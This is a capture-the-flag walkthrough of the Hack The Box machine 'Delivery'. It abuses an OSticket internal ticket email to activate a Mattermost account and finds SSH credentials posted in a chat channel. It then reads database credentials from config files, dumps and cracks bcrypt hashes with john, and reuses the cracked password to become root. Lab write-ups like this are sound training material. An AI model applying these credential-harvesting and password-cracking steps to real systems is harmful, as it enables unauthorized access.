

# Attack Chain

```
Recon — nmap -sVC -p-
└─► 22/SSH · 80/nginx · 8065/Mattermost (v5.30.1 via X-Version-Id)
    └─► 80 → redirect helpdesk.delivery.htb (OSticket)
        └─► Create ticket → internal email <id>@delivery.htb + accès au thread du ticket
            └─► Register sur Mattermost (8065) avec cet email interne
                └─► Lien de vérif livré DANS le thread OSticket → compte activé
                    └─► Join channel « Internal » → creds SSH en clair postées par root
                        └─► ssh maildeliverer:Youve_G0t_Mail!  ──►  [ USER ]
                            └─► /opt/mattermost/config/config.json → DB creds mmuser:Crack_The_MM_Admin_PW
                                └─► SELECT username,password FROM Users → hashs bcrypt
                                    └─► john --rule=best64 (PleaseSubscribe!) → PleaseSubscribe!21
                                        └─► Password reuse → su root  ──►  [ ROOT ]
```

# Summary

- [Enumeration](#enumeration)
- [Website](#website)
- [Mattermost](#mattermost)
- [Helpdesk](#helpdesk)
	- [OSticket](#osticket)
	- [Create a ticket](#create-a-ticket)
- [Create an account on Mattermost](#create-an-account-on-mattermost)
	- [Register with the mail from OSticket](#register-with-the-mail-from-osticket)
	- [Activate the account](#activate-the-account)
	- [Access Internal channel](#access-internal-channel)
	- [Shell as maildeliverer](#shell-as-maildeliverer)
- [Privilege Escalation](#privilege-escalation)
	- [OSticket database credentials](#osticket-database-credentials)
	- [Mattermost database credentials](#mattermost-database-credentials)
	- [Dump database](#dump-database)
	- [Crack the hashes](#crack-the-hashes)
	- [Shell as root](#shell-as-root)

---
# Enumeration

Let's scan the target and see which ports are open.

```
nmap -sVC -p- 10.129.*.* -oA nmap
Starting Nmap 7.93 ( https://nmap.org ) at 2026-07-04 18:23 CEST
Nmap scan report for 10.129.*.*
Host is up (0.042s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c40fa859b01acac0ebc0c19518aee27 (RSA)
|   256 5a0cc03b9b76552e6ec4f4b95d761709 (ECDSA)
|_  256 b79df7489da2f27630fd42d3353a808c (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
8065/tcp open  unknown
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Accept-Ranges: bytes
|     Cache-Control: no-cache, max-age=31556926, public
|     Content-Length: 3108
|     Content-Security-Policy: frame-ancestors 'self'; script-src 'self' cdn.rudderlabs.com
|     Content-Type: text/html; charset=utf-8
|     Last-Modified: Sat, 04 Jul 2026 16:22:37 GMT
|     X-Frame-Options: SAMEORIGIN
|     X-Request-Id: n7qicb1xmifd7g8wihmq7mssnh
|     X-Version-Id: 5.30.0.5.30.1.57fb31b889bf81d99d8af8176d4bbaaa.false
|     Date: Sat, 04 Jul 2026 16:28:48 GMT
|     <!doctype html><html lang="en"><head><meta charset="utf-8"><meta name="viewport" content="width=device-width,initial-scale=1,maximum-scale=1,user-scalable=0"><meta name="robots" content="noindex, nofollow"><meta name="referrer" content="no-referrer"><title>Mattermost</title><meta name="mobile-web-app-capable" content="yes"><meta name="application-name" content="Mattermost"><meta name="format-detection" content="telephone=no"><link re
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Date: Sat, 04 Jul 2026 16:28:48 GMT
|_    Content-Length: 0
```

> [!NOTE]
> **Observations**
> - 3 ports open
> - Port 8065 is uncommon and hosts a Mattermost instance

# Website

We can start by going to the main website and see what we can find


It's the company's website. We can check their Helpdesk by clicking on the link but let's check port 8065 first.

# Mattermost

Mattermost, an open source internal chat, is hosted on port 8065.


We don't have credentials, and when trying to register an account we need an email to confirm the registration and mails are not sent over the web.

There is no CVE affecting that version too.

# Helpdesk

Let's get back to their helpdesk.


We have a redirection to the subdomain `helpdesk.delivery.htb`, let's add the entry to `/etc/hosts`.

```
echo '10.129.*.* helpdesk.delivery.htb' | tee -a /etc/hosts
```

### OSticket

When refreshing the page, we are landing on OsTicket, a software used to manage tickets made by users.



### Create a ticket

We can't sign in since we have no credentials, but we can create a new one and see the answer we get.


The application will create a ticket number and an internal email matching the ticket number.
We can check Ticket Status with the mail we provided to open the ticket and by giving the number of the ticket. This action will log us onto the application.

# Create an account on Mattermost

Since we have a valid internal email address now, we can maybe try to create an account on **Mattermost** so we receive the email confirmation inside our created ticket. Let's check if our theory is correct.

### Register with the mail from OSticket

We start by creating an account with the email **OsTicket** gave us.


When clicking on **Create An Account**, the application tells us to check our mails.

### Activate the account

Back to **OsTicket** we can see we indeed received the activation link.


When clicking on it, we will have a valid account and we will be able to access the **Mattermost** chat.
### Access Internal channel

When we login, we will be asked which team we can join, since there is only **Internal**, let's join this one.


Inside the channel, we can see a message from **root** which gives credentials in cleartext :


### Shell as maildeliverer

Let's try these credentials over SSH.

```
ssh maildeliverer@10.129.*.*
maildeliverer@10.129.*.*'s password: Youve_G0t_Mail!

maildeliverer@Delivery:~$ 
```

We have a foothold on the target, and we can get the user flag from here.

# Privilege Escalation

Let's look for Privilege Escalation vectors now.

### OSticket database credentials

We can find the database credentials for **OsTicket** here.

```
maildeliverer@Delivery:/var/www/osticket/upload/include$ cat ost-config.php 


<SNIP>

# Database Options
# ---------------------------------------------------
# Mysql Login info
define('DBTYPE','mysql');
define('DBHOST','localhost');
define('DBNAME','osticket');
define('DBUSER','ost_user');
define('DBPASS','!H3lpD3sk123!');

<SNIP>
```

Let's connect and see what we can find.

```
mysql -u ost_user -p
Enter password: !H3lpD3sk123!

MariaDB [(none)]>
```

Unfortunately, nothing interesting can be found.

### Mattermost database credentials

We can also find database credentials but for the **Mattermost** db this time.

``` 
maildeliverer@Delivery:/opt/mattermost/config$ cat config.json

<SNIP>

"SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
        "MaxOpenConns": 300,
        "Trace": false,
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
        "QueryTimeout": 30,
        "DisableDatabaseSearch": false
    },
    
<SNIP>
```

Let's connect with these and see if we are luckier with this one.

```
maildeliverer@Delivery:/opt/mattermost/config$ mysql -u mmuser -p
Enter password: Crack_The_MM_Admin_PW

MariaDB [(none)]>
```

### Dump database

First we select the mattermost database.

```
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.000 sec)
```

And then we dump the hashes inside the table `Users`.

```
MariaDB [mattermost]> select username, password from Users;
+----------------------------------+--------------------------------------------------------------+
| username                         | password                                                     |
+----------------------------------+--------------------------------------------------------------+
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| channelexport                    |                                                              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
| hacked                           | $2a$10$RF8lLu6yFnsZeWMwertbrOSwGTyoMvw51s61LrgxRVAp9vZmkZyAC |
+----------------------------------+--------------------------------------------------------------+
```

### Crack the hashes

Let's put every dumped hashes inside a file and try to crack them.

From the Internal chat, the user **Root** mentions to stop using variant of the password `PleaseSubscribe!`. Let's write that pass into a file then.

```
echo 'PleaseSubscribe!' > pass.txt
```

We can use the rule `best64` with `john` so it will try to crack the hash using variant of that password.

```
john --wordlist=pass.txt --rule=best64 hash.txt

<SNIP>

PleaseSubscribe!21 (?)

<SNIP>
```

The password `PleaseSubscribe!21` will be retrieved but we don't know which hash was cracked.
### Shell as root

The retrieved password is the admin password for **Mattermost**, we can try to connect as `root` on the target with that password to see if the password has been reused.

```
maildeliverer@Delivery:/opt/mattermost/config$ su root
Password: PleaseSubscribe!21

root@Delivery:/opt/mattermost/config#
```

The password worked, we are `root` on the target.

> [!TIP]
> **Machine Rooted**

